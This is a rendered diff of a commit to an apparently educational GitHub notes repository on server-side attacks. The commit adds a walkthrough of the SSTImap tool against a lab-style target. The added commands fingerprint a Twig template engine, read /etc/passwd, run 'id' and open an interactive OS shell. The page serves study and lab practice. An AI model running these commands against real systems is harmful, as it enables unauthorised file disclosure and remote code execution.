

Before and after one commit to QED-92/cyber-security, a Markdown page: server-side-attacks/server-side-attacks.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; pictures changed too: server-side-attacks/images/twig4.png (added), server-side-attacks/images/twig5.png (added); blank space fills up the shorter version.

````diff
--- a/server-side-attacks/server-side-attacks.md
+++ b/server-side-attacks/server-side-attacks.md
@@ -540,3 +540,48 @@ In this case, the command is executed on the server, and its output is rendered
 ---
 
 ### Automating SSTI Discovery and Exploitation
+
+When manual testing becomes time-consuming or when dealing with complex applications, automated tools can assist with identifying and exploiting SSTI vulnerabilities. One such tool is `SSTImap`, which supports fingerprinting multiple template engines and automating common exploitation techniques.
+
+Clone the repository and install the required dependencies:
+
+```bash
+git clone https://github.com/vladko312/SSTImap
+cd SSTImap
+pip3 install -r requirements.txt
+```
+
+The following example demonstrates `SSTImap` analyzing a GET parameter to identify the template engine and detect potential SSTI vulnerabilities:
+
+```bash
+python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test
+```
+
+![Filtered output](images/twig4.png)
+
+In this case, `SSTImap` successfully identifies the template engine as `Twig` and reports several exploitable primitives, including `file read` and `file write` capabilities.
+
+The `-D` flag allows `SSTImap` to read files from the target system and download them locally:
+
+```bash
+python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test -D '/etc/passwd' './passwd'
+```
+
+This confirms local file disclosure through the SSTI vulnerability.
+
+The `-S` flag can be used to execute arbitrary system commands on the target:
+
+```bash
+python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test -S id
+```
+
+![Filtered output](images/twig5.png)
+
+This demonstrates remote code execution (RCE) via the SSTI vulnerability.
+
+For deeper post-exploitation, `STImap` supports spawning an interactive shell using the `--os-shell` flag:
+
+```bash
+python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test --os-shell
+```
+
````
Also changed, not shown: other parts of server-side-attacks/server-side-attacks.md (+5 -0 lines), server-side-attacks/images/twig6.png (added).
